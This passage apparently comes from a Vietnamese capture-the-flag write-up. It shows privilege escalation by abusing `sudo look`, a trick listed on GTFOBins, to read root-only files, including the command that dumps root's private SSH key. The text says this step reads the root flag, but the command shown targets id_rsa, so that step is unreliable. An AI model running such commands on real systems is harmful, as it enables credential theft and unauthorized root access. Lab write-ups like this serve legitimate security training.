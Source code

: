 - Kiểm tra [GTFOBins](https://gtfobins.github.io/), có thể leo quyền thông qua tool này.

![Hoang](Images/31.png)

- Có thể đoán được root flag nằm trong `/root/root.txt`, vì vậy chạy lệnh sau:

```bash
LFILE=/root/.ssh/id_rsa
sudo look '' "$LFILE"	
```

![Hoang](Images/32.png)

- Thành công lấy được root flag.

- Tuy nhiên, nếu muốn có quyền truy cập trực tiếp vào root, có thể sử dụng cách khác.

- Láy ssh key của root, sử dụng lệnh

```
LFILE=/root/.ssh/id_rsa
sudo look '' "$LFILE"	
```

